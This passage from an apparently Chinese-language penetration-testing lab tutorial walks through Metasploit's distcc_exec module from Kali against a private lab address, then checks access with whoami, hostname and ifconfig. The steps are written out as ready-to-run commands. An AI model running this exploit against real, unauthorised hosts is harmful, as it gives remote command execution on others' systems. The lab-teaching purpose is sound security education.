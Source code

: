 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480001481635.png-wm)


在 Kali 的 MSF 终端中，使用 `use` 命令，使用相应的模块：

```
# 使用 use 命令对模块进行使用
use exploit/unix/misc/distcc_exec
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483509242282.png-wm)


接着再使用 `show options` 命令，显示模块参数信息：

```
# 使用命令 show options 查看模块属性名
show options
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480001711639.png-wm)

```
# 利用 set 命令，设置渗透目标主机参数 RHOST 为 192.168.122.102
set RHOST 192.168.122.102
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480002814943.png-wm)



一切就绪后，再使用 `exploit` 进行主机攻击：

```
# 使用命令 exploit 命令，进行渗透攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483509502233.png-wm)


# 四、验证渗透攻击

#### 4.1 验证渗透是否成功

验证渗透是否成功常用的三个命令：`whoami` 和 `hostname` 以及 ip 地址查看命令：`ifconfig`：

```
# 验证是否成功，查看当前的用户名
whoami

# 由 hostname 查看主机的名字
hostname

# 由 ifconfig 命令查看渗透主机的 ip 地址
ifconfig
```
